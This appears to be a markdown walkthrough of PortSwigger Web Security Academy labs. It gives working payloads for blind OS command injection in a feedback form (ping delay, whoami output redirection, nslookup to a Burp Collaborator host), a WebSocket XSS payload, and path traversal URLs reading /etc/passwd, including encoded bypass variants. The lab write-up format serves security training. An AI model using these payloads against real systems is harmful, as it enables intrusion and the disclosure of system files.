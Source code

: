 ![image](https://user-images.githubusercontent.com/68326057/129083933-76c7585f-b299-498f-80f4-1cb464e430c2.png)


# OS COMMAND INJECTION

## LAB-2) Blind OS command injection with time delays


STEP-1)

![image](https://user-images.githubusercontent.com/68326057/128892383-e9aec988-b43b-4dac-bc4c-953c2c75947b.png)

STEP-2)

```bash
POST /feedback/submit HTTP/1.1
Host: ac041fce1e24ab7180d2370100730005.web-security-academy.net
Cookie: session=6Iw9a3yAPtStpbrmdDu68WNb3A6k6vVR
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://ac041fce1e24ab7180d2370100730005.web-security-academy.net
Dnt: 1
Referer: https://ac041fce1e24ab7180d2370100730005.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=uHWDGdgN9S2HeIvIbnMKAxdf5PmuSQQs&name=name&email=email@gmail.com||ping+-c+10+127.0.0.1+||&subject=subject&message=message
```

After 10 Seconds.

![image](https://user-images.githubusercontent.com/68326057/128909609-fa787d65-1b88-4f39-a41b-be362b41a696.png)

![image](https://user-images.githubusercontent.com/68326057/128909629-e66ce51c-7f1d-4f60-b1e3-bdf4b4a44c50.png)


---------------------------------------------

## Lab-3 Blind OS command injection with output redirection


Payload:-

```bash
POST /feedback/submit HTTP/1.1
Host: acd11fb11fa2411680e740d90038004c.web-security-academy.net
Cookie: session=uFl7VHy3dT2YLBOLgmgtMIOinY8QyBWz
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Origin: https://acd11fb11fa2411680e740d90038004c.web-security-academy.net
Dnt: 1
Referer: https://acd11fb11fa2411680e740d90038004c.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=hHEEDk0KRZTtArhIqwQfVrJQjAvKjQvM&name=name&email=email%40gmail.com+||+whoami+>+/var/www/images/whoami.txt+||&subject=subject&message=message
```

Right Click on image , Then Click `open in new tab`

![image](https://user-images.githubusercontent.com/68326057/128911707-f3090511-5e25-428b-b0a1-0413cb460b9a.png)

Then Change The filename to `whoami.txt`.

![image](https://user-images.githubusercontent.com/68326057/128911867-491ce1c7-4562-44dc-921f-84f37e05c525.png)

![image](https://user-images.githubusercontent.com/68326057/128911934-76da5445-bf14-4b43-acd2-bee1211139cf.png)

## Lab 4 : Blind OS command injection with out-of-band interaction

Payload:-

```bash
POST /feedback/submit HTTP/1.1
Host: ac1f1f661efdc245818722e80018005e.web-security-academy.net
Cookie: session=a9yJsPSWgyXARo18dDIub3juYWZLmpVs
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://ac1f1f661efdc245818722e80018005e.web-security-academy.net
Dnt: 1
Referer: https://ac1f1f661efdc245818722e80018005e.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=u9t9yeYVcJ9iZLxiTXUtAY48zZ1qvgal&name=name&email=email%40gmail.com+||+nslookup+test.burpcollaborator.net+||&subject=subject&message=message
```



![image](https://user-images.githubusercontent.com/68326057/128914896-456aff67-fef2-4d88-982d-0aa4832c0a39.png)


# WebSockets

## Lab - 1 : Manipulating WebSocket messages to exploit vulnerabilities

In Live Chat

Payload:-

```bash
{"message":"<img src=1 onerror='alert(1)'>"} 
```


![image](https://user-images.githubusercontent.com/68326057/128958454-97efd963-5cdd-479a-9ade-77d7b37236b2.png)

## Lab - 2 : Manipulating the WebSocket handshake to exploit vulnerabilities



# Directory traversal

## Lab - 1: File path traversal, simple case

Payload Used:-

```bash
https://acd31f731fe5b78b809a5516006d0049.web-security-academy.net/image?filename=../../../../etc/passwd
```

![image](https://user-images.githubusercontent.com/68326057/129085856-12f59780-3100-4aac-9739-2c377d21c4ef.png)


## Lab - 2: File path traversal, traversal sequences blocked with absolute path bypass

![image](https://user-images.githubusercontent.com/68326057/129086516-276e3244-4944-4038-b96d-b1fa59ed76f3.png)

![image](https://user-images.githubusercontent.com/68326057/129086628-20fe1a94-c1be-4dba-9413-14b41afcb8ed.png)

## Lab - 3: File path traversal, traversal sequences stripped non-recursively

Payload Used:-

```bash
https://ac441f6b1eb33036806c2ef3007100e2.web-security-academy.net/image?filename=....//....//....//....//etc/passwd
```

![image](https://user-images.githubusercontent.com/68326057/129088943-d41f0651-635d-41ef-b674-b928bcaca65f.png)

## Lab - 4: File path traversal, traversal sequences stripped with superfluous URL-decode
 
![image](https://user-images.githubusercontent.com/68326057/129092902-f8091331-a402-4ad8-bf26-21d0ec61b4a3.png)

Payload Used:-

```bash
https://ac8b1fa41e6ec11780844dfd004000c4.web-security-academy.net/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

![image](https://user-images.githubusercontent.com/68326057/129093045-008d73ad-4fdb-4e23-90f8-bb722e460597.png)


